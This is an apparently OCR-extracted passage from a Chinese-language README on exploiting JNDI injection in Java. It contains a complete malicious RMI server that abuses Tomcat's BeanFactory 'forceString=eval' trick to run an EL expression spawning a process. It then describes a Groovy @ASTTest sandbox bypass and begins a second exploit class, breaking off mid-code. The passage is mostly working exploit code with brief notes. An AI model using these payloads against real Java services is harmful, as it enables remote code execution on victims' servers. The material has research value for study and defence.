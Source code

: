 ```java
    public static void main(String[] args) throws RemoteException, NamingException, MalformedURLException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(2000);
        //LocateRegistry.createRegistry(9999);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
        ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit", referenceWrapper);
        System.out.println("MRI服务启动，服务地址为 rmi://127.0.0.1:2000/Exploit");

    }
}
```

##### use  `org.apache.naming.factory.BeanFactory` +`groovy.lang.GroovyClassLoader#parseClass`

> 需要存在Tomcat组件
>
> 和Groovy相关依赖

1、存在公有的无参构造函数

2、存在一个命令执行函数并且该函数只有一个参数，这个参数的类型为String类型

GroovyClassLoader#parseClass方法满足，之后使用Groovy加载恶意字符串这里使用**@ASTTest**注解绕过沙箱

![image-20220713212856380](README/image-20220713212856380.png)

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JDNIGroovyClassLoader {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
```